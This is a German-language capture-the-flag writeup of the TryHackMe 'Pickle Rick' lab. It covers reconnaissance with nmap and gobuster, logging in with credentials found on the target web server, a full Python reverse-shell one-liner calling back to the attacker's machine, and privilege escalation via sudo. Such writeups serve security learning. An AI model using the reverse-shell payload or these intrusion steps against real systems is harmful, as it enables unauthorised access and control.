

# THM - Pickle Rick Writeup

## 🧪 Einführung

In dieser *Rick & Morty*-inspirierten TryHackMe-Herausforderung ist es dein Ziel, einen verwundbaren Webserver zu analysieren und auszunutzen, um **drei geheime Zutaten** zu finden. Mit diesen kann Rick seinen Zaubertrank brauen, um sich von einer **Gurke wieder in einen Menschen zu verwandeln**.


# 🔎 Schritt 1: Webseite aufrufen

### 🔗 Zugriff auf die Ziel-Webseite

Zuerst rufen wir die Webseite des Zielsystems im Browser auf, indem wir die vorgegebene IP-Adresse in die Adresszeile eingeben:

http://[ZIEL-IP]

[](./screenshots/1.png) 

## 🕵️‍♂️ Schritt 2: Analyse des Seitenquelltexts

Nach dem ersten Aufruf der Webseite lohnt sich ein Blick in den **Quellcode**, um mögliche **versteckte Hinweise oder Entwicklerkommentare** zu entdecken.

![[Pasted image 20250513212624.png]]
🔍 **Beobachtung:**
Im HTML-Quellcode der Startseite befindet sich folgender Kommentar:

```html
<!-- Username: R1ckRul3s -->
```

## 📡 Schritt 3: Nmap-Scan – Dienste und Ports entdecken

Nachdem ich mir die Webseite angesehen habe, wollte ich herausfinden, welche offenen Ports und Dienste auf dem Zielsystem aktiv sind. Dafür habe ich einen Nmap-Scan mit den Standardskripten und Versionserkennung durchgeführt.

🛠️ **Befehl, den ich verwendet habe:**

```bash
nmap -sC -sV -oN nmap_scan.txt [ZIEL-IP]

```

![[Pasted image 20250513214950.png]]
Der Server bietet SSH (Port 22) und HTTP (Port 80) an. Da Port 80 bereits durch die Webseite bekannt war, fokussiere ich mich weiterhin auf den Webserver – hier erwarte ich die erste Schwachstelle.


## 🗂️ Schritt 4: Gobuster-Scan – Versteckte Verzeichnisse aufspüren

Um herauszufinden, ob auf dem Webserver versteckte oder nicht verlinkte Dateien und Verzeichnisse existieren, habe ich **Gobuster** verwendet – ein schnelles Tool zur Verzeichnis-Enumeration.

📌 **Kommando:**

```bash
gobuster dir -u http://10.10.77.266 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py

```

![[Pasted image 20250513220441.png]]

Wir haben eine `/robots.txt` Datei, die ich mir anschaue:
![[Pasted image 20250513220823.png]]

"Wubbalubbadubdub", vielleicht ein Password?

Wir haben ein `/login.php` Verzeichniss, wo ich reinschaue:

![[Pasted image 20250513221531.png]]

Perfekt, ich habe die Login Page gefunden!


## 🔐 Schritt 5: Login-Versuch mit gefundenen Zugangsdaten

Zunächst war unklar, welche Zugangsdaten für die Login-Seite benötigt werden. Doch bei der Überprüfung meiner bisherigen Erkenntnisse fiel mir auf:

- Im **Quelltext der Startseite** wurde der Benutzername `R1ckRul3s` hinterlegt.
- In der Datei **robots.txt** fand sich ein verdächtiger Eintrag: `Wubbalubbadubdub` – dieser sah stark nach einem möglichen Passwort aus.


✅ **Ergebnis:**
Mit dieser Kombination konnte ich mich **erfolgreich anmelden** und erhielt Zugriff auf ein neues Interface.
![[Pasted image 20250513222722.png]]


## 💻 Schritt 6: Zugriff auf das Kommando-Panel & erste Tests

Nach dem erfolgreichen Login wurde ich auf eine neue Seite weitergeleitet, auf der sich ein **Command Panel** befindet. Dieses Interface erlaubt es, **Shell-Befehle über das Web-Interface auszuführen**.

🧪 **Erster Test:**
Ich begann mit einfachen Befehlen wie `ls`, `whoami` oder `pwd`, um das Verhalten zu analysieren. Die Ausgaben funktionierten – es handelt sich eindeutig um eine echte Kommandozeilenausführung.
Einige wichtige Befehle waren jedoch offenbar **geblockt** 

![[Pasted image 20250513223546.png]]

![[Pasted image 20250513223510.png]]

🔍 **Interpretation:**
Das Web-Interface scheint gewisse Kommandos zu filtern oder einzuschränken – vermutlich per Blacklist.


## 🌀 Schritt 7: Versuch, eine Reverse Shell herzustellen

Da ich über das Command Panel bereits einfache Shell-Befehle ausführen konnte, wollte ich den nächsten logischen Schritt gehen: **eine Reverse Shell** herstellen, um eine vollwertige interaktive Verbindung zum Zielsystem zu erhalten.

🧪 **Test: Python-Verfügbarkeit prüfen**

Ich startete mit einem einfachen Test, um herauszufinden, ob Python vorhanden ist:

```bash
python -c "print('hello')"


```

![[Pasted image 20250513225502.png]]❌ Ergebnis: Kein Output – der Befehl scheint blockiert oder `python` ist nicht vorhanden.

Daraufhin probierte ich:

```bash
python3 -c "print('hello')"
```

![[Pasted image 20250513225837.png]]
✅ Ergebnis: Funktioniert – das System hat also **Python 3 installiert**.

💡 **Schlussfolgerung:**  
Ich kann also über `python3` eine Reverse Shell erzeugen.


### 🔁 Vorbereitung für die Reverse Shell

📍 **Angreifer-Seite (mein Rechner):**  
Ich habe mit Netcat auf meinem Rechner einen Listener gestartet:

![[Pasted image 20250513230039.png]]

📍 **Zielseite (über das Command Panel):**  
Dann habe ich folgenden Befehl eingegeben:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("MY-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh"])'
```

📌 **Wichtig:** Die IP-Adresse (`MY-IP`) musste natürlich durch meine eigene lokale oder VPN-IP ersetzt werden.

![[Pasted image 20250513231647.png]]

✅ **Ergebnis:**  
Ich erhielt erfolgreich eine Shell auf dem Zielsystem – **interaktiv und mit eingeschränkten Rechten**.

![[Pasted image 20250513231752.png]]


## 🏁 Schritt 8: Erste Zutat (Flagge) finden

Nachdem ich eine funktionierende Reverse Shell hatte, konnte ich endlich das Zielsystem direkt durchsuchen und die erste Zutat finden:

![[Pasted image 20250513233048.png]]

Und der Hinweis für die zweite Zutat ist unter der `clue.txt` zu finden:

![[Pasted image 20250513233418.png]]

Also habe ich mich im Dateisystem umgesehen und bin schnell im Home-Verzeichnis des Benutzers `rick` fündig geworden:

📂 **Wechsel in das Home-Verzeichnis:**

```bash
cd /home/rick

```

![[Pasted image 20250513233914.png]]


## 🔍 Schritt 10: Prüfen von Sudo-Rechten

Um herauszufinden, ob ich bestimmte Befehle mit `sudo` – also als Superuser – ausführen darf, habe ich folgenden Befehl ausgeführt:

```bash
sudo -l
```

![[Pasted image 20250513234321.png]]

## 🚀 Schritt 12: Root-Zugriff erlangen

Ich habe einfach folgenden Befehl ausgeführt:
```bash
sudo su
```

💥 Ergebnis: Ich war nun als **Root** angemeldet und hatte vollständige Kontrolle über das System.

Jetzt konnte ich endlich ins `/root`-Verzeichnis wechseln:
```bash
cd /root
ls
```

![[Pasted image 20250513234825.png]]

## ✅ Ergebnis & Abschluss

Im Rahmen der "Pickle Rick"-Challenge auf TryHackMe konnte ich erfolgreich alle drei versteckten **Zutaten (Flags)** finden, die Rick benötigt, um seinen Zaubertrank zu brauen:

![[Pasted image 20250513235137.png]]
---

## 🧰 Verwendete Tools

- 🖥️ **Browser + Developer Tools** – Quelltextanalyse, Auffinden von Hinweisen
- 🔍 **nmap** – Port- und Dienstscan
- 🗂️ **gobuster** – Directory-Bruteforce zum Auffinden versteckter Pfade
- 🔌 **netcat (nc)** – Listener für eingehende Reverse Shells
- 🐍 **python3** – Ausführung der Reverse Shell vom Zielsystem aus
